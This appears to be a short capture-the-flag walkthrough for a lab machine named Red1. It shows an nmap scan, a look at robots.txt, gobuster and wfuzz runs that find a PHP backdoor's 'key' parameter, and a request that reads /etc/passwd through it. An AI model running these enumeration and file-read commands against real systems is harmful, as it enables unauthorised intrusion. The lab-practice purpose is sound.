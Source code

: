 # Red1
**IP: 10.0.4.7**
<br>
First of all I did an `nmap` scan and found that there are two open ports:<br>
> 80 _apache_ <br>
> 22 _ssh_

The site looks pretty simple. But I found some things in `robots.txt`<br>

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://redrocks.win/wp-sitemap.xml
```

I went to the sitemap and found that there is user named:
administrator

Checked it in the admin-login page and looks like it works.
<br>
Going to the site we know that there is a backdoor. The hacker said so.
<br>
Let's look for backdoors. We have a good wordlists with backdoor names in seclists.<br>
`gobuster dir -u http://10.0.4.7/ -w CommonBackdoors-PHP.fuzz.txt`<br>
Looks like we found one:<br>
```
/NetworkFileManagerPHP.php (Status: 500) [Size: 0]
```
There is nothing if we go there. Therefore, we can try to put there different requests like:<br>
`/NetworkFileManagerPHP.php?search=qwe`<br>
We can use `wfuzz` to do it.<br>
```
wfuzz -c -u "http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test" -w /usr/share/wfuzz/wordlist/general/big.txt --hh 00
```
We will find that the word `key` works.<br>
Try `http://redrocks.win/NetworkFileManagerPHP.php?key=/etc/passwd` and you will get a good result.
